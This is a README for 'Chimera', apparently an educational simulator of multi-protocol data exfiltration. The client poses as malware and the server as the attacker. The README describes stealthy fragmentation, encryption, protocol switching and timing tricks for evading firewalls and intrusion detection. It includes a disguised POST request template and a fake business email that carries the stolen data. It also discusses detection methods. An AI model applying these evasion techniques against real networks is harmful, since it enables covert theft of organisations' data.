

<br />
<div align="center">
    
  </a>

  <h3 align="center">Chimera: Polymorphic Exfiltration Simulator  </h3>

  <p align="center">
 The Polymorphic Protocol Challenge - Fraktal   <br />
    <a href="https://github.com/mostafaghozal/Chimera/">View Repo</a>
    &middot;
    <a href="https://github.com/mostafaghozal/Chimera/issues/new?labels=bug&template=bug-report---.md">Report Bug</a>
    &middot;
    <a href="https://github.com/mostafaghozal/Chimera/issues/new?labels=enhancement&template=feature-request---.md">Request Feature</a>
  </p>
</div>


<!-- TABLE OF CONTENTS -->
<details>
   <summary>Table of Contents</summary>
  <ol>
      <li><a href="#Overview">Overview</a></li>
    <li>
      <a href="#Architecture">Design Rationale & Approach</a>
    </li>
    <li><a href="#Features">Features</a></li>
    <li><a href="#Protocol-Specifications">Protocol Specification</a></li>
    <li><a href="#Techniques-for-Making-Traffic-Appear-Legitimate">Techniques for making traffic appear legitimate</a></li>
    <li><a href="#Detection-Methods">Detection Methods</a></li>
    <li><a href="#Counter-Measures">Counter Measures</a></li>
    <li><a href="#Prerequisites">Usage Instructions</a></li>
    <li><a href="#Contact">Contact</a></li>
  </ol>
</details>


<!-- ABOUT THE PROJECT -->
## Overview


Chimera is a simulation tool designed to mimic polymorphic exfiltration techniques used by adversaries. 
The tool demonstrates how data can be fragmented, encoded, and transmitted through multiple protocols—such as HTTPS (TLS and POST), DNS, UDP, SMTP, and Telnet to bypass advanced network monitoring systems. 
Adaptive exfiltration methods and configurable traffic patterns are integrated to simulate realistic network behavior

## Design Rationale & Approach 
### Architecture
* **Client**: represents the malware software installed on a corprate machine, it attempts to encrypt, fragment the senstive data and send it sends data using multiple protocols (HTTPS, DNS, UDP, SMTP, Telnet and Adaptive exfiltration mode, to try all protocols) based on configurable traffic patterns 
<br>
The main objective on the client side is to bypass the firewall and operate stealthily without alarming the Intrusion Detection System (IDS).<br>

* **Server**: Represents the attacker server, Listens on various ports, decrypts incoming data, and reconstructs the fragments to extract the sensitive  infromation
* **Firewall**: Simulates the company network's firewall. It supports rate limiting, port blocking, and keyword-based inspection, and logs events to firewall_log.txt.
### Helper Components 
* **Obfuscation & Encryption Manager**: 
<br>It secures the communication between client and server by:
1. Deriving a cryptographic key from a passphrase stored in an environment variable.<br>
2.Using the key to encrypt plaintext with AES-CBC (with PKCS7 padding) and a random IV.<br>
3.Decrypting the ciphertext back into plaintext.<br>
4. Splitting the encoded data into fragments for further processing.
<br>
Note: The SMTP Email protocol is treated as an exception because fragmenting data across multiple emails may trigger additional IDS alarms.

* **Traffic Pattern Manager**: 
Provides flexibility by allowing users to customize the rate at which data fragments are sent. Users can choose between three modes:
1.  Fixed Mode: A consistent delay between transmissions.
2. Stealth Mode (Random): Variable delays that simulate natural network jitter , User can define Minimum and Maximum Limits.
3. Custom Mode: A user-defined sequence of delays for precise control.
<br>
For each mode, there is default values set, and user can modify the numerical values of the sleep time between sending fragments.
<br> 
Note: the test results vary alot depending on your configuration for traffic.

## Features

* **Secure Message Transmission**:

  Traffic is encrypted using AES in CBC (Cipher Block Chaining) mode with PKCS7 padding.
  A 16-byte key is derived from a passphrase using SHA-256 (by taking the first 16 bytes of the hash).
  A random IV is generated for each encryption operation, and the IV is prepended to the ciphertext before Base64 URL-safe encoding.
  HTTPS uses TLS with certificate-based authentication, ensuring data confidentiality and server authenticity.
* **Multiple Protocols**:

  Supports exfiltration via HTTPS (TLS), HTTPS POST, DNS, UDP, SMTP, and Telnet.


* **Adaptive Exfiltration**:

  If one protocol is blocked, the attacker automatically attempts other options until successful transmission is achieved.
* **Firewall Simulator**:

  Monitors network traffic and blocks suspicious traffic based on predefined keywords and common exfiltration ports.
  </br> <a href="https://attack.mitre.org/mitigations/M1057/"> M1057 Data Loss Prevention</a> & <a href="https://attack.mitre.org/mitigations/M1037/"> M1037 Filter Network Traffic</a> 
* **Firewall Log**:

  Logs can be used for investigation by forensic investigators.
  <br> <a href="https://attack.mitre.org/datasources/DS0029/"> DS0029	Data Source : Network Traffic</a>
* **Traffic Pattern Control**:

  Provides three modes (fixed, random, and custom) for sending traffic from the client malware to the attacker server.
  Users can customize the numerical values for minimum and maximum delays.


<p align="right">(<a href="#readme-top">back to top</a>)</p>


<!-- GETTING STARTED -->

<!-- USAGE EXAMPLES -->
## Protocol Specifications

Chimera supports multiple protocols for exfiltration:

* **HTTPS - Direct TLS:** <br>
Port: 443 <br>
1. Establishes a secure TLS connection between client and server using a self signed certificate (for demonistration purpose) however in real case scenario this will raise alarms, so a certificate signed by CA is prefered. <br>
2. Most Networks allow outbound HTTPS traffic so it is effective in bypassing firewall.<br>
3. Data is sent in small, encrypted fragments with an "EOF" marker to signal completion,size is often a few hundred bytes or less to resemble normal TLS traffic and avoid triggering anomaly detection..<br>
* **HTTPS - POST Request:** <br>
Port: 8080 <br>
1. The traffic appears more legitimate by setting common headers (such as User-Agent and Content-Type), making it easier to pass through firewalls and monitoring systems. This approach is especially popular because most networks allow outbound HTTP/HTTPS traffic, and POST requests are a regular part of web interactions. <br>
2. In a real case scenario, I would tailor the POST requests to make it suitable for the target machine for example for fraktal<br>
 ```sh
POST /fraktalcyber HTTP/1.1
Url: github.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

comment=$Fragment%3A%20VPN Tool%2C%20Patch%21
  ```
* **UDP:** <br>
Port: 5000 (A Randomly Chosen Port) <br>
1. UDP is a heavy rate traffic, and that explains why it is common to be blocked by firewalls, and also it is not very reliable. however, chunks are very small under 512 bytes per packet , so it is still a possibiility to be use din exfiltration if the traffic rate was set properly

* **DNS:**<br>
Port: 53 (A Randomly Chosen Port) <br>
1. It is Essential for any network, so typically firewalls dont block it , it is from the most commonly used protocols for exploits and specifically mentioned in MITRE ATT&CK T1071.004.
2. A Common way is to use google search queries and embed the fragements to it as we can see in the following screenshot from our implemenation :

In real scenario, reconnaissance can be performed and url be tailored to fit the target , to reduce possibility of IDS alarms.
* **SMTP:**<br>
Port:25
1. It can be used as a last option due to logging and email security measures , especially that the emaills will be sent outound <br>
2. However, Formatting the email to appear as a normal business follow-up message is a technique to reduce suspicion.
 ```sh
From: antti.seitovirta@fraktal.fi
To: juho.mitrunen@fraktal.fi
Subject: VPN Patch Follow-up

Dear Juho,
Hope you’re doing well. Just wanted to follow up on the CVE-2025 patch deployment in Fraktal VPN and make sure everything is progressing as planned.
I came across some notes from our last discussion, and I wanted to share them with you:
{encoded_data}
Looking forward to your thoughts.
Best regards,
Antti
```
* **Telnet:**<br>
Port:23
1. Telnet is rarely permitted in firewalls , due to its well known vulnerabilites and unencrypted nature 
2. Included primarily as a demonstration for blocked ports

<p align="right">(<a href="#readme-top">back to top</a>)</p>


See the [open issues](https://github.com/othneildrew/Best-README-Template/issues) for a full list of proposed features (and known issues).

<p align="right">(<a href="#readme-top">back to top</a>)</p>

## Techniques for Making Traffic Appear Legitimate

**Configurable Traffic Patterns:**

1. **Stealth Mode (Random delays):** Simulates natural network jitter.<br>
2. **Reliable Mode (Fixed delays):** Provides consistent intervals.<br>
3. **Custom Pattern:** Allows user-defined delay sequences.
<br>These delays are applied between sending data fragments to help mimic normal user activity and evade IDS/firewall heuristics.<br>

**Encryption:** Payloads are encrypted using AES-CBC with PKCS7 padding.

**Data Fragmentation & Encoding:** 
Data is divided into small fragments.
Each fragment is encoded in Base64 to disguise the raw payload.<br>
**Adaptive Protocol Switching:**
The client dynamically selects an alternative protocol if the chosen one is blocked.
This multi-protocol strategy reduces the chance of complete exfiltration failure.<br>

**HTTPS and HTTP POST** transmissions use valid SSL/TLS and typical HTTP headers.<br>
**DNS queries** are formatted to resemble normal search requests.<br>
**SMTP Email** messages follow a conventional business format.

For Future work , I can make an AI model can be implemented that learns when the client gets blocked logs it and change its behaviour.

<!-- CONTRIBUTING -->
## Potential Detection Methods & Countermeasures
### Detection Methods
1. **Anomaly-Based IDS**:
Detection of Unusual fragmentation rates—such as a sudden surge in small, fragmented packets—or irregular inter-packet delays can signal exfiltration attempts. An anomaly-based IDS might flag these patterns if they deviate significantly from normal user behavior.

2. **Signature-Based Detection:**
 Repeated encrypted fragments that differ from typical encrypted traffic or those using non-standard parameters might trigger alerts.

3. **Behavioral Analysis:**
 a sudden burst of protocol switching or unusually rapid alternation between multiple protocols (e.g., switching from HTTPS to DNS exfiltration) could be deemed suspicious. Moreover, burst transmissions—where many packets are sent in a short timeframe—might indicate automated exfiltration attempts.
or sudden traffic load , requesting ccess to Suspicous Ports/ Sending Suspicous Payloads.
4. **Using Honeytokens** decoy data or resources strategically placed in a network or system to detect and track unauthorized access or data exfiltration. When an attacker attempts to use or exfiltrate these tokens, an alert is triggered, allowing the organization to identify potential intrusions.
### Counter Measures
1. **Adaptive Traffic Pattern**:
By using configurable delays (fixed, random, or custom), the exfiltration tool can mimic natural network jitter. This variability makes it more challenging for anomaly-based IDS systems to set reliable baselines for normal behavior. 

2. **Protocol Diversity:**
Using multiple protocols (HTTPS, DNS, UDP, SMTP, Telnet) for exfiltration forces defenders to monitor a wider range of channels simultaneously. Since each protocol has unique behavioral characteristics, a static defense strategy that targets only one protocol might miss exfiltration attempts occurring over another channel.

3. **Decoy Traffic** : concurently send real traffic to make the IDS lose track 

4.**IDLE Traffic followed by burst**: mimics real user behaviour

5.**Evasion via Obfuscation:**
Encrypting payloads with AES-CBC and using Base64 encoding adds an extra layer of obfuscation.to bypass the IDS and firewall.


<p align="right">(<a href="#readme-top">back to top</a>)</p>


<!-- LICENSE -->
## Build & Usage Instructions


### Prerequisites

[![Python][Python]][Python-url] <br>
* Python 3.13.1<br>
* Required Packages <br>
Use the following command to install all dependencies:
 ```sh
 pip install -r requirements.txt
   ```
 * SSL Certificates: 
 Ensure cert.pem and key.pem are generated and placed in the certs/ directory.
 * Environment Configuration:  Create a .env file with the following variable:
 ```sh
AES_key= Your Passphrase
   ```


### Installation


 
1. Clone the repository & Install dependencies:

 ```sh
   git clone <repository-url>
   cd Chimera
   ```
 ```sh
 pip install -r requirements.txt
   ```
2. Run server first
 ```sh
  python server.py
   ```
Server now is listening to <br>HTTPS: 443 , HTTPS POST: 8080, DNS: 53, UDP: 5000, SMTP: 25 <br>
3. Run Client
 ```sh
  python client.py
   ```
<p align="right">(<a href="#readme-top">back to top</a>)</p>

4. Configure the rate of traffic on the client side:


5.Select the protocol or adaptive exfiltration mode


<!-- CONTACT -->
## Contact

Mostafa Ghozal  - [LinkedIn](https://linkedin.com/in/ghozal) - mostafa.ghozal@aalto.fi

Project Link: [https://github.com/mostafaghozal/Chimera/](https://github.com/your_username/repo_name)

<p align="right">(<a href="#readme-top">back to top</a>)</p>


[Python]: https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54
[Python-url]: https://python.org/
